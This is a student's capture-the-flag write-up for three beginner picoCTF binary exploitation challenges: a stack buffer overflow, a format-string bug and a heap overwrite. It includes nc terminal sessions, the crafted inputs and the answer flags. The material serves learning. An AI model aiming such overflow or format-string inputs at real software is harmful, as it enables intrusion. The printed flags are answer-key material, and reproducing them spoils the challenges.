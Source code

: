 # Binary Exploitation
## buffer overflow 0
## Flag
~~~
bash
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
~~~
Step 1:
Before buffer overflow 0 I tried some easy challenges of binary exploitation such as heap 0.
Code and Terminal Output
~~~
nc saturn.picoctf.net 60203saps@LAPTOP-KKUS7K8J:~$ nc saturn.picoctf.net 60203
Input: man gets
The program will exit now
jejwijkepoekpknewkpwemlpewmnwkekpnkem
saps@LAPTOP-KKUS7K8J:~$ nc saturn.picoctf.net 60203
Input: jejwijkepoekpknewkpwemlpewmnwkekpnkemeu8eu9jiejoknidjoxok33
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
~~~
Learnings
A) Now as I stated above before this I tried my hands on the easy challenges such as heap 0, so keeping the learnings which I learnt in heap 0 in mind, I tried this the same way.
Firstly I launched the instance as well as checked out the source code.
When the source code opened I saw that the string buf2 can only be maximum 16 characters and if I input more than 16 letters that data would overflow and the behaviour of the program would be manipulated and the flag might be printed.
That is exactly what happened here and the flag got printed when I entered a string with excessive letters.
B) Now this is how I related it to heap 0 and could do it so quickly, because in heap 0 i tried and tested alot and after checking out the source code I realized that in that as well after printing some choice I had to overflow the data so it could into the safe variable and print me the flag.
Other Methods
I only tried entering man gets, i dont know why I did that as that was given to me in the hint section but that wouldnt do anything as the man page cannot be printed out in this instance, everything else I learnt in heap 0.

![image](https://github.com/user-attachments/assets/0c919a2a-7e32-46fa-8a66-f9627747217a)

References:
No references used per say other than the videos provided in the document itself under binary exploitation.


## format string 0
## Flag
~~~
bash
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
~~~

Step 1:
Same as the above question I had to check out the source code firstly and then I got to know that I had to input Gr%114d_Cheese which contains a format string %ll4d and is the only format string out of the 3 options.
Step 2:
That worked out and then I had to choose between 3 options again, and again only one string consisted of %s which is a string formatter and that worked and gave me the flag.
Code and Terminal Output:
~~~
bash
 nc mimas.picoctf.net 58514
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
~~~


Learnings:
A) already knew about string formatters which were %lld and %s and using that concept got the flag.

References:
https://www.youtube.com/watch?v=CRTR5ljBjPM&ab_channel=LowLevel
watched the above video which didnt really have anything to do with the above challenge but still.


## heap 1

Flag
~~~
bash
picoCTF{starting_to_get_the_hang_c588b8a1}
~~~
Code and Terminal Output
~~~
bash
 nc tethys.picoctf.net 51553

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5f7d1207b2b0  ->   pico
+-------------+----------------+
[*]   0x5f7d1207b2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: abcdefghijklmnopqrstuvwxyz123456pico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5f7d1207b2b0  ->   abcdefghijklmnopqrstuvwxyz123456pico
+-------------+----------------+
[*]   0x5f7d1207b2d0  ->   pico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_c588b8a1}
~~~

Step 1:
In this challenge, just like heap 0, I opened the source code and the instance and this was just like heap 0.
But at first I didnt notice the difference between both and just tried what I did in heap 0 to obtain the flag.
Knowing that there would of course be some catch but still did it and it of course didnt work.
Step 2:
Went to the source code and carefully examined it.
That is when I saw it, the safe word shouldnt be pico or it wouldnt give me the flag.
Step 3:
So at first I entered all the alpha numeric characters to figure out which ones overflow to the safe var, once discovered that I entered such a string that would overflow pico to the safe var and give me the flag and it did.

![image](https://github.com/user-attachments/assets/f1dd9d56-e857-4663-931d-1f261ae7aea9)
![image](https://github.com/user-attachments/assets/144bccb4-0f7d-4d23-b4bd-1fc07cb58597)


Learnings:
A) nothing learnt new as such just a key takeaway to not straight dive into the question, instead taking a little time to read the source code and understand what the question actually requires.









